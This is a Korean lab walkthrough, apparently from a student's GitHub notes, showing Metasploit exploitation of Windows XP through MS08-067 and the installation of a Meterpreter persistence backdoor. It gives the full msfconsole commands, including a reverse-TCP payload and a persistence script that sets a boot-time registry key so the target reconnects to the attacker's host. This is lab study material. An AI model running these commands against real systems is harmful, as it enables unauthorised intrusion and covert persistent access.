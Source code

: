 # 실습과정

### 1. Persistence
Meterpreter는 Persistence를 이용하여 시스템에 BackDoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.


일단 Kali에서 root의 권한으로 CMD창을 열고  
**msfconsole** 을 입력해 msfconsole을 실행한다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B51.png)

그 다음은 우리가 공격할 대상인 WindowXp의 취약점인 ms08-067을 통해 공격을 할 것이므로 이를 설정해 놓는다.  
**search ms08-067**  
**use exploit windows/smb/ms08_067_netapi**  
**set payload windows/meterpreter/reverse_tcp_allports**  
**show options**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B52%20%EA%B8%B0%EB%B3%B8%20%EC%84%A4%EC%A0%95.png)

이후 나머지 RHOST와 LHOST를 설정한다.
**set RHOST (window XP IP)**  
**set LHOST (Kali IP)**  
**run**  
을 실행한다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%B9%A8%ED%88%AC%20%EC%99%84%EB%A3%8C.png)  
이렇게하면 우리는 성공적으로 window Xp에 들어올 수 있게 된다.
그다음 우리는 우리의 목표인 Persistence를 얻기위해 다음의 작업을 진행한다.  
**run persistence -h**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%EC%97%90%20%EB%8C%80%ED%95%9C%20%EC%84%A4%EB%AA%85.png)  
위의 사진에서 보다 싶이 여러 옵션을 통해 persistence를 설정할 수 있다.
우리는 아래의 명령어를 통해 시스템이 부팅이 되면 자동적으로 실행, 연결 시도 간격을 10초로 설정해서 persistence를 작업한다.  
**run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r (Kali IP)**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%20%EC%84%A4%EC%A0%95.png)  
설정이 완료되었다면 다음과 같은 형상이 나타나게 된다.
결과를 보면 첫번째 [+]를 보면 공격대상에 해당경로에 Persistence Script(Back Door)가 쓰여있는 것을 볼 수 있다.

그렇다면 우리는 Window Xp에서 해당 파일이 있는지 확인해보면 다음과 같다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%EC%97%90%20Script%ED%8C%8C%EC%9D%BC%20%EC%83%9D%EC%84%B1.png)  
실제 Window Xp의 C:\WINDOWS\TEMP의 경로에 해당파일이 생성되어있는 것을 알 수 있었다.

그리고 handler가 싷행되었고 마지막 [+]를 보면 BacckDoor가 자동적으로 실행시키기 위한 install key가 생성되었다고 나와있다.
이는 우리가 옵션으로 생성한 결과이므로 이를 Window Xp의 실제 register에서 보면 다음과 같은 결과를 볼 수 있다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/BackDoor%EB%A5%BC%20%EC%9C%84%ED%95%9C%20install%20key.png)  다음과 같은 파일이 설정되고 있는 것을 볼 수 있다.
또한 Kali에서 session이 맺어진것으로도 확인할 수 있다.
이 세션은 Window Xp가 종료되면 자동적으로 사라지고 실행되면 자동적으로 맺어진다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%20Xp%EC%A2%85%EB%A3%8C%EC%8B%9C%20%EC%84%B8%EC%85%98%EC%83%81%ED%83%9C.png)  
